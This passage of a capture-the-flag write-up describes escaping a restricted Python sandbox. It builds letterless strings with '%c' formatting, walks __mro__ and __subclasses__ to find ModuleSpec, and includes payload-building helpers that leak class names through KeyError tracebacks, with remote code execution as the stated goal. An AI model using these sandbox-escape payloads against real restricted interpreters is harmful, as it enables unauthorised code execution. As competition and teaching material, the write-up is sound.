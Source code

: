 #### **Conjure strings without letters**:

It is not very known but the `%` binary operator can be used to format strings if applied on a string, similar to how the C function `printf` works.
The `%c` format specifier is notable because it formats a character from a codepoint, aka ascii encoding for the sake of this writeup. For example, the underscore's codepoint is 95, thus `"%c" % 95 = "_"`.
So right now we can craft any number and any string.

This is the primitive that we used for crafting arbitrary strings:
```python
def str_expr(s: str) -> str:
    """
    Build a string literal via "%c"*k % (codepoints...),
    where each codepoint is built via n_expr.
    Only % as BinOp; no forbidden letters in source.
    """
    parts = [n_expr(ord(ch)) for ch in s]
    return '"' + ("%c" * len(parts)) + '"%(' + ",".join(parts) + ")"
```

### Exploit

The exploit consists of two parts:
1. Accessing ModuleSpec (Probe)
2. RCE (Exec)

#### Probing

All classes in Python are subclasses of `object` and every class has an attribute called `__subclasses__`. So we can get to `ModuleSpec` from there. The question is how to get to `object`.

Here `__mro__` comes into play. Every class in Python has a `__mro__` attribute, the *method resolution order*. It is a tuple of classes Python will search when looking up attributes. For example, using `c` aka `getattr`:

```python
>>> getattr.__class__
<class 'builtin_function_or_method'>
>>> getattr.__class__.__mro__
(<class 'builtin_function_or_method'>, <class 'object'>)
```

So `getattr.__class__.__mro__[-1]` gives us `object`, and then `object.__subclasses__()` gives us the full list of subclasses, including `ModuleSpec`.

There is still an obstacle however:
```
>>> len(getattr.__class__.__mro__[-1].__subclasses__())
286
```
How do we know where `ModuleSpec` lies? We don't have access to the `print` function so we can't just print each one of them. When testing locally we had success with the following approach:
```python
def probe_payload(i: int) -> str:
    """
    Raises KeyError with the name of object.__subclasses__()[i],
    leaking the class name via traceback.
    """
    NAME = str_expr("__name__")
    subs = subclasses_list_expr()
    idx  = n_expr(i)
    return f"({define_zero()},{{}}[c({subs}[{idx}],{NAME})])"
```
The idea is to get `subclasses()[i]` and to access an empty dict using that as a key. That will trow a key error and will leak the name of the class. That testing locally, using `pwntools`'s process utility.
However when trying remotely we didn't see anything because `stderr` was missing.